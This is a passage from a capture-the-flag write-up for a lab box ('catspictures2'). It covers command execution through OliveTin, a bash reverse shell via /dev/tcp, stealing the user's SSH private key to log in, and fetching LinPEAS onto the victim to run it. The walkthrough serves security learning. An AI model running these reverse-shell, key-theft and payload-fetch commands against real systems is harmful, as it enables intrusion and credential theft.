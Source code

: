 Command executed should be "whoami", chencking the results in the Logs page on OliveTin, we get "bismuth".

<img src="https://github.com/x1foideo/CTFs-Writeups/blob/main/img/catspictures2/gitea_meme.jpeg?raw=true" width="600">

Changing command from "whoami" to "ls", stdout stats that there is a _flag2.txt_, change code again to "cat flag2.txt" and get the second flag.


## Third Flag

Still missing the third flag, usually flags are in the /root folder, so I prayed that a simple

```bash
cat /root/flag3.txt
```

would be all I needed, but unfortunately no... 
"Permission Denied".

#### RevShell & PrivEsc

N00B Version: 
- Visit https://www.revshells.com/
- Insert IP & Port
- Copy and Past

``` bash
bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```

NB: RevShells suck, so for sth that is more stable and since we know ssh is enabled:
```bash
ls -la
cd ".ssh"
cat id_rsa
```

Copy paste the key in a local _id_rsa.txt_, close the RevShell

```bash
chmod 600 id_rsa.txt
ssh bismuth@<IP> -i 'id_rsa.txt'
```

We need root privilege, so let's check:
> https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist

And Run LinPEAS, as we cannot download from the web, a good alternative is download on local machine, run a python server and download it on the victim_machine:

```bash
# host
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh 
sudo python3 -m http.server 80

# victim
curl -L <LOCAL-IP>/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
